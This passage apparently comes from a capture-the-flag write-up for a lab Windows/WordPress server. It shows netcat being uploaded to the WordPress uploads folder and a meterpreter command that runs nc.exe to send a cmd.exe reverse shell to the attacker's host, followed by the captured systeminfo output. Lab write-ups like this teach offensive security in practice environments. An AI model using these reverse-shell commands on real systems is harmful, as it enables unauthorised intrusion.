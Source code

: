 We then navigate to a writeable directory on the server (in our case `C:/inetpub/wwwroot/wordpress/wp-content/uploads`) and upload netcat. Let's start a netcat listener:

```bash
# nc -lvp 1234
```

Next, we can execute the following command in the meterpreter session to get a netcat shell:

```bash
msf > execute -f nc.exe -a "-e cmd.exe 10.10.15.4 1234"
```

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.29] 51413
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\wordpress\wp-content\uploads>systeminfo
systeminfo

Host Name:                 SHIELD
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30000-00299-AA303
Original Install Date:     2/4/2020, 12:58:01 PM
System Boot Time:          3/11/2021, 7:25:58 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 908 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,274 MB
Virtual Memory: In Use:    1,157 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4520724
                           [03]: KB4524244
                           [04]: KB4537764
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.29
                                 [02]: fe80::6d25:8198:9b5f:9b4d
```
